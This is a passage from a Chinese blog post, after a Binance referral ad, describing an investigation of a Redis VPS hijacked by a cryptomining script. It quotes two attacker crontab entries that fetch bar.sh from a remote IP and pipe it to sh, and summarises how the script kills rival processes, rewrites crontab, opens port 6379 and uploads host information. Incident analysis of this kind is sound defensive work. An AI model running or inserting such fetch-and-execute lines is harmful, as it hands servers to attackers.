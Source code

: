 
`文/Robin`

***

**本站推广**

币安是全球领先的数字货币交易平台，提供比特币、以太坊、BNB 以及 USDT 交易。

> 币安注册: [https://accounts.binancezh.io/cn/register/?ref=11190872](https://accounts.binancezh.io/cn/register/?ref=11190872)
> 邀请码: **11190872**

***

这是「区块链技术指北」的第 28 篇文章。

> 如果对我感兴趣，想和我交流，我的微信号：**Wentasy**，加我时简单介绍下自己，并注明来自「区块链技术指北」。同时我会把你拉入微信群「区块链技术指北」。BTW，李笑来老师也加入了我的知识星球，文末有加入方式。

## 0x00 背景
***

某日，笔者收到 VPS 服务器 CPU 告警，上服务器一看，有个叫做 gpg-agentd 的进程占用大量的 CPU 资源。接着就是常规的排查，IO 情况、网络流量、内存情况、系统日志、crontab 等。当排查到 crontab 时，发现 crontab 有如下的任务：

``` bash
*/5 * * * * curl -fsSL http://84.73.251.157:81/bar.sh | sh
*/5 * * * * wget -q -O- http://84.73.251.157:81/bar.sh | sh
```

该服务器提供 Redis 资源供笔者测试使用，明显上面两个定时任务不是笔者创建的。定时任务访问外网服务器，紧急处理有三点，一是确认其他服务是否受到影响，二是注释定时任务，三是临时断外网，处理完之后，再来排查原因。

![2018-03-08-blockchain-crack-mining](https://cdn.dbarobin.com/Xf3ZNJY.jpg)

> 题图来自: © kisspng.com / Anonymous Guy Fawkes mask Gunpowder Plot / kisspng.com

## 0x01 挖矿脚本分析
***

笔者把该 Shell 脚本下载到本地，然后进行分析。该脚本包含以下函数：

* IKILLYOU
* FIRE
* DOWNLOAD
* INFO
* CRON
* CLEAN
* INIT
* ITABLE

我们 **逐个分析**。IKILLYOU 函数会 kill 掉 ssuspsplk 和 gpg-agentd 进程。CRON 函数会将文首的两个 crontab 写入到 /tmp/.bla.cron 文件，接着清空用户的 crontab，然后将 /tmp/.bla.cron 文件载入到 crontab。FIRE 函数删除掉 6379 端口相关的防火墙，允许本地连接，同时将防火墙配置持久化。INFO 函数用于收集主机信息，包含当前服务器进程、服务器硬件属性、系统内核版本、Linux 发行版本、Linux 发行的详细版本、Linux 标准规范信息、crondb 文件帮助信息（下文还会详细说明这个文件的作用），最后将以上信息上传到 84.73.251.157 指定目录。
